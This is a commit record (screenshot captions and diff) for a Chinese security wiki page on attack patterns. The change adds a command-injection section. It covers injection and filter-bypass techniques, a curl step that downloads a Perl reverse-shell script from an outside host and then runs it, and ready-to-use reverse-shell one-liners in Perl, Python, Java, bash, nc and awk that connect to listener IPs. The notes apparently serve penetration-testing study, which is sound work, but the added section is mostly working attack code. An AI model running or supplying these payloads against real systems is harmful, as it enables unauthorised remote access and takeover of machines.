

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 1400 px high, scrolled down 7868 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -364,6 +364,88 @@ public interface UserMapper {
 
 ## 命令注入
 
+### 验证步骤
+
+1. 使用`;`, `|`或`&&`直接进行命令拼接
+1. 使用`` USERID=`id -u` ``或`USERID=$(uname -a)`进行命令替换
+1. 如果遇到特殊字符校验
+    1. `/`: 在环境中截取, 如当前路径: `xxx;cc=$(pwd);ff=${cc:0:1};mkdir $(ff)tmp$(ff)hackfile;`
+    1. 空格: 使用特殊变量替换: `$ a=$(curl$IFS"http://10.74.201.219:8888/")`
+    1. `;`: 使用十六进制替换: `a=$'\x3b'; echo $a`, 这种方式会被当做字符串来执行
+
+    !!! tip "33种特殊字符`` `~!@#$%^&*()-_=+\|[{}];:'",<.>/?和空格 ``"
+
+1. 如果对特殊字符校验无法 {==反弹shell==}, 可分拆两步
+    1. 上传反弹shell脚本, 保存到指定路径: `xxx$(curl$IFS-o"/tmp/hhack.pl"$IFS"http://x.x.x.x:8888/hhack.pl")`
+    1. 执行脚本: `xxx$(perl$IFS"/tmp/hhack.pl")`
+
+### 反弹shell
+
+reverse shell, 在控制端 **监听端口**, 被控端发起请求到该端口, 并将其命令行的输入输出转到控制端
+
+#### 1. 在攻击端启动监听
+
+```bash
+$ ncat -lvp 53
+Ncat: Version 7.70 ( https://nmap.org/ncat )
+Ncat: Listening on :::53
+Ncat: Listening on 0.0.0.0:53
+```
+
+#### 2. 在被控端发起连接
+
+##### Perl
+
+```bash
+$ perl -e 'use Socket;$i="192.168.1.128";$p=53;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
+
+# 或写进脚本执行
+$ perl xxx.pl
+```
+
+##### Python
+
+```bash
+$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.128",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
+```
+
+##### Java
+
+```java
+public class Revs {
+    public static void main(String[] args) throws Exception {
+        Runtime r = Runtime.getRuntime();
+        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/53;cat <&5 | while read line; do $line 2>&5 >&5; done"};
+        Process p = r.exec(cmd);
+        p.waitFor();
+    }
+}
+```
+
+##### bash
+
+```bash
+$ /bin/bash -i >& /dev/tcp/192.168.1.128/80 0>&1
+```
+
+##### nc
+
+!!! danger "注意需要确认被控机器上已安装nc"
+
+```bash
+$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.128 8080 >/tmp/f
+```
+
+##### awk
+
+```bash
+$ awk 'BEGIN{s="/inet/tcp/0/192.168.1.128/8080";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
+```
+
+
+!!! quote "参考链接: [你和目标只差一个shell的距离](https://klionsec.github.io/2016/09/27/revese-shell/)"
+
+
 ### Java
 
 ```java
````
